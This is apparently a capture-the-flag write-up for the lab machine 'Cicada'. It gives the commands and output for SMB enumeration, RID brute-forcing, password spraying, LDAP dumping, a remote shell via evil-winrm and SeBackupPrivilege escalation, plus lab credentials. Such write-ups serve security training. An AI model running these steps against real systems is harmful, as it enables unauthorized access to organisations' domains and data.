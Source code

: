 # Nmap discovery

![NMAP](/static/writeups/Cicada/0.png)

##### From NMAP scan, We can find many open ports. port 445 Samba is most interesting. so, lets see about SAMBA shares:

### Using smbclient:

```
smbclient -N -L $TAR, (ip:TAR=10.10.11.35)
```

![NMAP](/static/writeups/Cicada/1.png)

### Let's check if we can login with guest account or not using netexec :

```
nxc smb 10.10.11.35 -u 'a' -p '' --shares
```

#### we can specify guest as 'a' in Netexec

![NMAP](/static/writeups/Cicada/2.png)

### Guest can read HR and $IPC share, lets see HR contents using smbclient

#### File called Notice from HR.txt is stored here

![NMAP](/static/writeups/Cicada/3.png)

![NMAP](/static/writeups/Cicada/4.png)

#### Password for new user 'Cicada$M6Corpb\*@Lp#nZp!8' can be seen in this file, lets keep note of it

#### Now, lets enumerate user in cicada domain using netexec:

```
sudo nxc smb $TAR -u guest -p '' --rid-brute
```

![NMAP](/static/writeups/Cicada/5.png)

#### We can find many user from this command, lets keep note of it.

#### Now lets use previously found password from Notice from HR.txt and use these user to see if any credential matches

#### lets use NetExec again using:

```
sudo nxc smb $TAR -u user.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![NMAP](/static/writeups/Cicada/6.png)

#### We can see user 'michael.wrightson' matches with that pasword

#### lets use these cred in Netexec to see what permission we have on share with this account.

```
nxc smb 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb\*@Lp#nZp!8' --shares
```

```

SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV
SMB         10.10.11.35     445    CICADA-DC        HR              READ
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```

### Nothing interesting same as guest account but have read permission in SYSVOL and NETLOGON

### Using these with ldapdomaindump:

ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb\*@Lp#nZp!8'

![NMAP](/static/writeups/Cicada/7.png)

#### We find that David Orelius left his password in description: 'aRt$Lp#7t\*VQ!3'

#### lets use these cred in Netexec to see what permission we have on share with this account.

```
nxc smb 10.10.11.35 -u 'david.orelious' -p 'aRt$Lp#7t\*VQ!3' --shares
```

![NMAP](/static/writeups/Cicada/8.png)

#### david can access dev share lets see what is in there using smbclient

```
smbclient -U david.orelious //$TAR/DEV
```

![NMAP](/static/writeups/Cicada/9.png)

#### there is file called backup_script.ps1 which contains emily.oscars password: 'Q!3@Lp#M6b*7t*Vt'

#### Lets see what permission we have on share using these credentials using NetExec:

```
nxc smb 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt' --shares
```

![NMAP](/static/writeups/Cicada/10.png)

##### emily can read all share except DEV and have write access in C$ share

#### Accessing c$ share using emily creds and pivoting here and there we can see that there is file called user.txt in Desktop folder C:\Users\emily.oscars.cicada\Desktop

we are able to get user flag

### Using evil-winrm with emily account, we can get shell

```
sudo evil-winrm -i $TAR -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

![NMAP](/static/writeups/Cicada/11.png)

#### and using net user emily.oscars, we can see that emily is part of backup_operators group

#### lets keep pivoting, file called root.txt can be found on Desktop folder under Administrator directory but we cannot download or access that file with emily

![NMAP](/static/writeups/Cicada/12.png)

#### lets google for privilege escalation of backup operators

#### In this site we can see a way to escalate our privilege:

[https://book.hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges)

#### Using two dll called SeBackupPrivilegeUtils.dll and SeBackupPrivilegeCmdLets.dll, we are able to copy and access file that high level user like admin can access

![NMAP](/static/writeups/Cicada/13.png)

#### We can download these file from internet and manually upload them in write access directory of emily.oscars and using the method above we can escalate privilege and copy it to directory with write permission using this command:

```
Copy-FileSeBackupPrivilege C:\Users\Administrator\Desktop\root.txt c:\\Users\emily.oscars.CICADA\Downloads\a.txt
```

![NMAP](/static/writeups/Cicada/14.png)

#### and we are able to get root flag like this:

![NMAP](/static/writeups/Cicada/15.png)
